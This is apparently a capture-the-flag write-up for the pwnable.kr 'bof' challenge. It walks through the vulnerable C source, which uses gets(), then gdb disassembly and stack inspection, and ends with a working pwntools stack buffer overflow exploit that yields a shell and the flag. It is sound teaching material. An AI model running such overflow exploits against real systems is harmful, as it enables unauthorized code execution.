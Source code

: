 <h1>bof</h1>
This looks like a regular buffer overflow problem

```
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```

We need key to be 0xcafebabe to get a shell.
disassembling with gdb yields

```
gdb-peda$ disas func
Dump of assembler code for function func:
   0x5655562c <+0>:	push   ebp
   0x5655562d <+1>:	mov    ebp,esp
   0x5655562f <+3>:	sub    esp,0x48
   0x56555632 <+6>:	mov    eax,gs:0x14
   0x56555638 <+12>:	mov    DWORD PTR [ebp-0xc],eax
   0x5655563b <+15>:	xor    eax,eax
   0x5655563d <+17>:	mov    DWORD PTR [esp],0x5655578c
   0x56555644 <+24>:	call   0xf7e5dca0 <_IO_puts>
   0x56555649 <+29>:	lea    eax,[ebp-0x2c]
   0x5655564c <+32>:	mov    DWORD PTR [esp],eax
   0x5655564f <+35>:	call   0xf7e5d3e0 <_IO_gets>
   0x56555654 <+40>:	cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x5655565b <+47>:	jne    0x5655566b <func+63>
   0x5655565d <+49>:	mov    DWORD PTR [esp],0x5655579b
   0x56555664 <+56>:	call   0xf7e38da0 <__libc_system>
   0x56555669 <+61>:	jmp    0x56555677 <func+75>
   0x5655566b <+63>:	mov    DWORD PTR [esp],0x565557a3
   0x56555672 <+70>:	call   0xf7e5dca0 <_IO_puts>
   0x56555677 <+75>:	mov    eax,DWORD PTR [ebp-0xc]
   0x5655567a <+78>:	xor    eax,DWORD PTR gs:0x14
   0x56555681 <+85>:	je     0x56555688 <func+92>
   0x56555683 <+87>:	call   0xf7ef5680 <__stack_chk_fail>
   0x56555688 <+92>:	leave  
=> 0x56555689 <+93>:	ret    
End of assembler dump.
gdb-peda$ b *0x56555654
Breakpoint 3 at 0x56555654
```

This breakpoint allows us to see how much memory we need to overwrite. I input 6 e's and look through the stack.

```
gdb-peda$ x/30x $esp
0xffffd590:	0xffffd5ac	0xffffd634	0xf7fb0000	0x00004f17
0xffffd5a0:	0xffffffff	0x0000002f	0xf7e0adc8	0x65656565
0xffffd5b0:	0x56006565	0xf7fb0000	0x00000001	0x5655549d
0xffffd5c0:	0x00000001	0x00000003	0x56556ff4	0xc7964500
0xffffd5d0:	0xf7fb0000	0xf7fb0000	0xffffd5f8	0x5655569f
0xffffd5e0:	0xdeadbeef	0x56555250	0x565556b9	0x00000000
0xffffd5f0:	0xf7fb0000	0xf7fb0000	0x00000000	0xf7e16637
0xffffd600:	0x00000001	0xffffd694
```

We can see 0x65656565 (eeee) is 52 bytes from 0xdeadbeef. This means we need to overwrite 52 bytes.
I wrote a quick exploit using pwntools.

```
from pwn import *;
r = remote("pwnable.kr", 9000)
r.sendline(b'a'*52+p32(0xcafebabe))
r.interactive()
```

```
(ctf) [huck@knuth] python exploit.py          
[+] Opening connection to pwnable.kr on port 9000: Done
[*] Switching to interactive mode
$ ls
bof
bof.c
flag
log
log2
super.pl
$ cat flag
daddy, I just pwned a buFFer :)
```
